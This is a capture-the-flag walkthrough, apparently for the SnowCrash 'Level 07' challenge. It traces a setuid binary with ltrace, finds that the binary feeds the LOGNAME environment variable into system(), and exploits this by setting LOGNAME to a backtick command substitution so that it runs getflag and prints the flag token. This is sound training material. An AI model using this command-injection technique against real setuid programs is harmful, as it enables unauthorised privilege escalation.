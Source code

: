 # Level 07

- Once logged in, you will see `level07` binary file
```
???$ ssh level07@localhost -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          localhost 10.110.0.2
level07@localhost's password:
level07SnowCrash:~$
level07@SnowCrash:~$ ls
level07
level07@SnowCrash:~$
```

To check more detail, let's use `ltrace`

```
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7a4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                     = 2007
geteuid()                                                                     = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                           = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                           = 0
getenv("LOGNAME")                                                             = "level07"
asprintf(0xbffff6f4, 0x8048688, 0xbfffff26, 0xb7e5ee55, 0xb7fed280)           = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                        = 0
+++ exited (status 0) +++
level07@SnowCrash:~$
```
We can see the file takes an ENV varible of logname, and executs `/bin/echo level07`

Let's check the permissions of the file.
```
level07@SnowCrash:~$ ls -ls
total 12
12 -rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
level07@SnowCrash:~$
```

Change environment variable **LOGNAME with command substitution by escaping backticks** if using with double quotes.
```
level07@SnowCrash:~$ export LOGNAME="\`getflag\`"
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$
```

